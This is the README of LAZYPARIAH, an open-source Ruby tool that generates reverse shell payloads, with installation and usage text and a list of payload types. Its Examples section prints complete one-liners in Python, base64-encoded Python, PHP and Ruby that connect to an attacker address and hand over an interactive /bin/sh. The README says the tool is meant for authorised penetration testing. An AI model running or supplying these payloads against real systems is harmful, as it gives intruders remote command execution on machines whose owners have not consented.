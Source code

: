 # LAZYPARIAH
A tool for generating reverse shell payloads on the fly.

## Description
LAZYPARIAH is a simple command-line tool for generating a range of reverse shell payloads on the fly. It was written in pure Ruby and has no dependencies outside of the standard library.

This tool is intended to be used only in authorised circumstances by qualified penetration testers, security researchers and red team professionals. Before downloading, installing or using this tool, please ensure that you understand the relevant laws in your jurisdiction. The author of this tool does not endorse the usage of this tool for illegal or unauthorised purposes.

## Demonstration
![Alt text](./lazypariah-0.2.0.svg)

## Dependencies
* Ruby >= 2.7.1 (LAZYPARIAH has not been tested on previous versions of Ruby)

## Installation
LAZYPARIAH can be installed as follows:
```
gem install lazypariah
```

## Usage
```
Usage:  lazypariah [OPTIONS] <PAYLOAD TYPE> <ATTACKER HOST> <ATTACKER PORT>
Note:   <ATTACKER HOST> may be an IPv4 address, IPv6 address or hostname.

Example:        lazypariah -u python3_b64 10.10.14.4 1555
Example:        lazypariah python2_c malicious.local 1337

Valid Payloads:
    awk
    bash_tcp
    c_binary
    c_binary_b64
    c_binary_gzip
    c_binary_gzip_b64
    java_class_b64
    java_class_binary
    java_class_gzip_b64
    nc
    nc_pipe
    perl
    perl_c
    php_fd_3
    php_fd_3_c
    php_fd_3_tags
    php_fd_4
    php_fd_4_c
    php_fd_4_tags
    php_fd_5
    php_fd_5_c
    php_fd_5_tags
    php_fd_6
    php_fd_6_c
    php_fd_6_tags
    python
    python2_b64
    python2_c
    python3_b64
    python3_c
    python_b64
    python_c
    ruby
    ruby_b64
    ruby_c
    socat

Valid Options:
    -h, --help                       Display help text and exit.
    -l, --license                    Display license information and exit.
    -u, --url                        URL-encode the payload.
    -v, --version                    Display version information and exit.
```

## Examples
The payloads listed above are more-or-less systematically named. Payloads ending with `_b64` essentially pipe base64-encoded code through to `base64 -d` and then on through to the relevant interpreter (such as `python3`, `python2` or `ruby`).

Payloads ending with `_c` are directly executed using the relevant interpreter (e.g. `python3 -c` or `ruby -e`).

Some payloads will specify a file descriptor to be used, such as `php_fd_5_tags`, which is a PHP payload that uses file descriptor 5 and is enclosed within PHP tags (`<?php` and `?>`).

Below are some examples of commands and their respective outputs.

Output of command `lazypariah -u python3_b64 10.10.14.4 1337`:
```
echo%20aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjQiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw%3D%3D%20%7C%20base64%20-d%20%7C%20python3
```
Output of command `lazypariah python2_c 10.10.14.4 1337`:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Output of command `lazypariah php_fd_3_tags 10.10.14.4 1337`:
```
<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");?>
```
Output of command `lazypariah ruby 10.10.14.4 1337`:
```
require "socket";exit if fork;c=TCPSocket.new("10.10.14.4","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end
```

## Author
Copyright (C) 2020 Peter Bruce Funnell

## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <https://www.gnu.org/licenses/>

## Support
If you found this project useful and would like to encourage me to continue making open source software, please consider making a donation via the following link:

https://www.buymeacoffee.com/peterfunnell

Donations in Bitcoin (BTC) are also very welcome. My BTC wallet address is as follows:

```
3EdoXV1w8H7y7M9ZdpjRC7GPnX4aouy18g
```
